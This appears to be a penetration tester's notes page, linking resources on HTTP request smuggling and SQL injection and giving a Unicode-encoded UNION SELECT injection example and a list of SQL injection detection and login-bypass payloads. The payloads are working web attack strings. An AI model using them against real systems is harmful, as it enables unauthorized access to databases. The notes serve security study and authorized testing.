 ### Manual Recon
https://portswigger.net/web-security/request-smuggling/finding

The most generally effective way to detect HTTP request smuggling vulnerabilities is to send requests that will cause a time delay in the application's responses if a vulnerability is present.

## HTTP Smuggling Exploitation
https://portswigger.net/web-security/request-smuggling/exploiting


# SQL Injection

**https://sqlwiki.netspi.com/attackQueries/lateralMovement/#mysql**

https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/  
https://www.asafety.fr/mysql-injection-cheat-sheet/  
https://www.note4tech.com/post/sql-injection-tutorial-login-bypass  
https://github.com/swisskyrepo/PayloadsAllTheThings  
***
Manual enumeration  
https://www.w3schools.com/sql/func_mysql_database.asp  
https://www.w3resource.com/mysql/string-functions/mysql-load_file-function.php  
***
MSSQL  
https://blog.netspi.com/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/  
***
- Before checking anything, check the header to see if the website is using unicode encoding or something else. If this is the case, we need to convert everything in unicode with cyberchef or zap or a tamper script in sqlmap.  

https://0xdf.gitlab.io/2020/09/19/htb-multimaster.html  

	test' UNION ALL SELECT 58,58,58,DEFAULT_DOMAIN(),58-- gxQm

	\\ Becomes

	\u0074\u0065\u0073\u0074\u0027\u0020\u0055\u004E\u0049\u004F\u004E\u0020\u0041\u004C\u004C\u0020\u0053\u0045\u004C\u0045\u0043\u0054\u0020\u0035\u0038\u002C\u0035\u0038\u002C\u0035\u0038\u002C\u0044\u0045\u0046\u0041\u0055\u004C\u0054\u005F\u0044\u004F\u004D\u0041\u0049\u004E\u0028\u0029\u002C\u0035\u0038\u002D\u002D\u0020\u0067\u0078\u0051\u006D

## DETECTION

- Try to identify a vuln input with simple payloads like these  

		'
		''
		`
		``
		,
		"
		""
		/
		//
		\
		\\
		;
		' or "
		-- or # 
		' OR '1
		' OR 1 -- -
		" OR "" = "
		" OR 1 = 1 -- -
		' OR '' = '